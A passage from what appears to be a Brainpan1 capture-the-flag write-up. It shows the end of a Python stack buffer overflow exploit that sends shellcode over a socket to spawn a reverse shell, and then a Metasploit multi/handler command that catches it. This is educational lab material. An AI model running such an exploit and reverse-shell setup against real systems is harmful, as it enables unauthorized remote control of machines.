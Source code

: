 SC += "\x5f\x28\x6f\x6a\xca\x52\x23\x6c\xdf"

PAYLOAD = PADDING + EIP + NOP + SC

######################################

try:

	print "[+] Connecting to IP:", TARGET, "at PORT:", PORT
	time.sleep(1)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET,PORT))

	#Initialize connection
	data = s.recv(1024) 
	print "[+] Connected!"	
	print ""
	print ""
	time.sleep(0.5)
	print data #Debug

	print "[+] Sending the payload ..."
	time.sleep(1)
	s.send(PAYLOAD) #Sends payload
	#PADDING + EIP + NOP + SC = PWN
	print "[+] DONE! A reverse shell is on its way :) !"

except:
	print "[-] Error connecting!!!"
 
{% endhighlight %}

If done correctly the reverse shell should arrive to the handler you set up via `msfconsole -q -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp; set LHOST eth0; set LPORT 3333; run"`. 

<img src="/img/blog/brainpan1/brainpan1-08.png">


BOFs are kind of complicated and describing them is impossible within one blogpost. I highly recommend binary hacking series by [LiveOverflow](https://www.youtube.com/playlist list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) to begin learning. 
